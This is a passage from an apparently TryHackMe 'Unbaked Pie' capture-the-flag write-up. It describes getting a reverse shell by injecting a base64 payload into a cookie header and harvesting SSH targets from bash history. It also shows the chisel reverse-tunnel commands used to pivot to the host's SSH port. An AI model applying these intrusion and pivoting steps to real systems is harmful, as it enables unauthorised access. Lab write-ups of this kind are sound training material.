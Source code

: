 This script will generate that same type of base64 encoded string which when loads by server, provide us reverse shell back to our machine.

Generated payload

<figure><img src="https://github.com/user-attachments/assets/c224806e-606d-4cfd-bbcf-c41ea22cd7be" alt=""><figcaption></figcaption></figure>

Copied this b64 encoded string and replaced `search_cookie` header's value in that HTTP POST request via burp suite repeater.

<figure><img src="https://github.com/user-attachments/assets/a1120377-de59-4212-aa39-99914353b096" alt=""><figcaption></figcaption></figure>

As we send that request, we got reverse shell back to our listening netcat server.

<figure><img src="https://github.com/user-attachments/assets/2c79635d-d15e-4cca-aebf-bec9f9e33b5b" alt=""><figcaption></figcaption></figure>

Got root shell on container, not on host machine.

***

### Shell As Ramsey

While enumerating the directories and files in that container, found something interesting in `.bash_history` file.

<figure><img src="https://github.com/user-attachments/assets/3465ee06-3a6a-483d-8a8d-fd325df6f7e8" alt=""><figcaption></figcaption></figure>

```bash
root@8b39a559b296:~# cat .bash_history
cat .bash_history
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
..........
```

User was trying to ssh to user `ramsey` on IP address `172.17.0.1` (potentially hostmachine’s IP). Checked open ports on that IP address with the help of nc binary present on that container and found ssh open.

<figure><img src="https://github.com/user-attachments/assets/32aa2426-e40e-4653-83aa-039d227b6a73" alt=""><figcaption></figcaption></figure>

As we can’t directly access that host machine’s port we can simply use port forwarding with chisel.

First of all transfer chisel binary with python http server to that container. Use can download chisel from [here](https://github.com/jpillora/chisel/releases).

Then, simply forwarded that port with following commands:

```bash
# Our Own Attacker machine
┌──(ghost㉿kali)-[~/tryhackme/unbaked-pie]
└─$ sudo ./chisel server -p 9001 --reverse
2025/08/14 00:55:49 server: Reverse tunnelling enabled
2025/08/14 00:55:49 server: Fingerprint Ai3KlsLPgRQKofm7zT3Wtvhs25IBE2PC0eEyJmM/3gY=
2025/08/14 00:55:49 server: Listening on http://0.0.0.0:9001
2025/08/14 00:56:32 server: session#1: tun: proxy#R:22=>172.17.0.1:22: Listening

# On container
root@8b39a559b296:~# ls
ls
chisel
```